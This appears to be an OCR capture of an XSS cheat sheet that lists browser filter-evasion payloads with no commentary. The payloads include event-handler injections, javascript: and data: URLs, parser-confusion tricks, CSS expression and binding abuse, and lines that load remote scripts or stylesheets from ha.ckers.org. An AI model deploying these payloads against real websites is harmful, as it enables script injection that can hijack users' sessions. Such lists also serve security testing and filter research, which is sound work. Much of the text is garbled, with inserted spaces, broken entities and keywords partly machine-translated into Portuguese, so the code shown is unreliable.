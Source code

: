 <body onscroll = alert (XSS)> <br> <br> <br> <br> <br> <br> ... <br> <br> <br> <br> <input autofocus>
<form> <button formaction = "javascript: alert (XSS)"> lol
<! - <img src = "-> <img src = x onerror = alert (XSS) //">
<! [> <img src = "]> <img src = x onerror = alert (XSS) //">
<style> <img src = "</style> <img src = x onerror = alert (XSS) //">
<? foo = "> <script> alert (1) </script>">
<! foo = "> <script> alert (1) </script>">
</ foo = "> <script> alert (1) </script>">
<? foo = "> <x foo = '?> <script> alert (1) </script>'>">
<! foo = "[[[Inception]]"> <x foo = "] foo> <script> alert (1) </script>">
<% foo> <x foo = "%> <script> alert (123) </script>">
<div style = "font-family: 'foo & # 10 ;; color: red;';"> LOL
LOL <style> * {/ * all * / color / * all * /: / * all * / red / * all * /; / [0] * IE, Safari * [0] / color: green; color: bl / * IE * / ue;} </style>
<script> ({0: # 0 = alert / # 0 # / # 0 # (0)}) </script>
<svg xmlns = "http://www.w3.org/2000/svg"> LOL <script> alert (123) </script> </svg>
& lt; SCRIPT & gt; alert (fonte / XSS / & # 46;) & lt; / SCRIPT & gt;
\\ "; alert ('XSS'); //
& lt; / TITLE & gt; & lt; SCRIPT & gt; alerta (\ "XSS \"); & lt; / SCRIPT & gt;
& lt; INPUT TYPE = \ "IMAGE \" SRC = \ "javascript & # 058; alert ('XSS'); \" & gt;
& lt; BODY BACKGROUND = \ "javascript & # 058; alert ('XSS') \" & gt;
& lt; BODY ONLOAD = alert ('XSS') & gt;
& lt; IMG DYNSRC = \ "javascript & # 058; alert ('XSS') \" & gt;
& lt; IMG LOWSRC = \ "javascript & # 058; alert ('XSS') \" & gt;
& lt; BGSOUND SRC = \ "javascript & # 058; alert ('XSS'); \" & gt;
& lt; BR SIZE = \ "& {alert ('XSS')} \" & gt;
& lt; LAYER SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / scriptlet & # 46; html \" & gt; & lt; / LAYER & gt;
& lt; LINK REL = \ "folha de estilo \" HREF = \ "javascript & # 058; alert ('XSS'); \" & gt;
& lt; LINK REL = \ "folha de estilo \" HREF = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; css \" & gt;
& lt; ESTILO & gt; @ import'http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; css '; & lt; / ESTILO & gt;
& lt; META HTTP-EQUIV = \ "Link \" Content = \ "& lt; http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; css & gt ;; REL = folha de estilo \" & gt;
& lt; ESTILO & gt; BODY {-moz-binding & # 58; url (\ "http & # 58; // ha & # 46; ckers & # 46; org / xssmoz & # 46; xml # xss \")} & lt; / ESTILO & gt;
& lt; XSS STYLE = \ "comportamento & # 58; url (xss & # 46; htc); \" & gt;
& lt; ESTILO & gt; li {imagem-estilo de lista & # 58; url (\ "javascript & # 058; alert ('XSS') \");} & lt; / ESTILO & gt; & lt; UL & gt; & lt; LI & gt; XSS
& lt; IMG SRC = 'vbscript & # 058; msgbox (\ "XSS \")' & gt;
& lt; IMG SRC = \ "mocha & # 58; & # 91; código & # 93; \" & gt;
& lt; IMG SRC = \ "livescript & # 058; & # 91; código & # 93; \" & gt;
žscriptualert (EXSSE) ž / scriptu
& lt; META HTTP-EQUIV = \ "atualizar \" CONTENT = \ "0; url = javascript & # 058; alert ('XSS'); \" & gt;
& lt; META HTTP-EQUIV = \ "atualizar \" CONTENT = \ "0; url = dados & # 58; text / html; base64, PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K \" & gt;
& lt; META HTTP-EQUIV = \ "atualizar \" CONTENT = \ "0; URL = http & # 58; //; URL = javascript & # 058; alert ('XSS'); \"
& lt; IFRAME SRC = \ "javascript & # 058; alert ('XSS'); \" & gt; & lt; / IFRAME & gt;
& lt; FRAMESET & gt; & lt; FRAME SRC = \ "javascript & # 058; alert ('XSS'); \" & gt; & lt; / FRAMESET & gt;
& lt; TABLE BACKGROUND = \ "javascript & # 058; alert ('XSS') \" & gt;
& lt; TABLE & gt; & lt; TD BACKGROUND = \ "javascript & # 058; alert ('XSS') \" & gt;
& lt; DIV STYLE = \ "imagem de fundo & # 58; url (javascript & # 058; alert ('XSS')) \" & gt;
& lt; DIV STYLE = \ "imagem de fundo & # 58; \ 0075 \ 0072 \ 006C \ 0028 '\ 006a \ 0061 \ 0076 \ 0061 \ 0073 \ 0063 \ 0072 \ 0069 \ 0070 \ 0074 \ 003a \ 0061 \ 006c \ 0065 \ 0072 \ 0074 \ 0028 & # 46; 1027 \ 0058 & # 46; 1053 \ 0053 \ 0027 \ 0029 '\ 0029 \ "& gt;
& lt; DIV STYLE = \ "imagem de fundo & # 58; url (javascript & # 058; alert ('XSS')) \" & gt;
& lt; ESTILO DIV = \ "largura & # 58; expressão (alerta ('XSS')); \" & gt;